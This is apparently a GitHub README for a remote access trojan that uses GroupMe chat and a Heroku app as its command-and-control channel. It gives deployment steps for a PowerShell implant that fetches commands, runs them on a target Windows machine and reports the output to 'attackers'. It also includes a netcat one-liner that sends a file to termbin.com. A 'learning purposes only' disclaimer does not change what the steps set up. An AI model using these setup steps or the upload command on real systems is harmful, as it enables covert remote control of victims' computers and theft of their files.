 # Rat-GroupME

_For learning purposes only. I wanted to see how the GroupME API or similar chat-based framework would work as a RAT controller. This is not meant
to be used maliciously._

The implant is the rat.ps1 and is meant to be triggered every X minutes, POSTing to the 
heroku python app asking for what commands to be ran. After running these 
commands, output is sent to the "attackers" in their set groupme chat. 

This is strictly of proof of concept and learning project, so no persistence strategies or task scheduling will be mentioned here. You're on your own.

app.py, runtime.txt, requirements.txt, Procfile, and commands.txt are all necessary on the 
heroku app-side. 

The rat.ps1 will need to be ran from the client.

## Steps to Reproduce
1. Setup a Python HerokuApp using the files I've provided. Heroku Git is a magical thing. 
2. Put the rat.ps1 on the machine you're testing as your client/target machine. As of right now,
I have tested this on Win10. I will be rewriting the script for Powershell 2.0.
3. Make the necessary changes based on your personal API information.

### In rat.ps1: 
* Set bot_id on line 12
* Set GM_TOKEN on line 20
* Provide your HerokuApp URL on line 36
 
### In app.py
* Set bot_id in send_message function
* The conditions that mention the bot's name may need to be changed if your bot is named something other than 'victim'

**For file Uploading**
You'll need to host your file somewhere like pastebin, termbin, or dropfile. 
Ex. - cat file.txt | nc termbin.com 9999
- Get the URL and use it to run your command in chat as such: upload URL OutFilePath
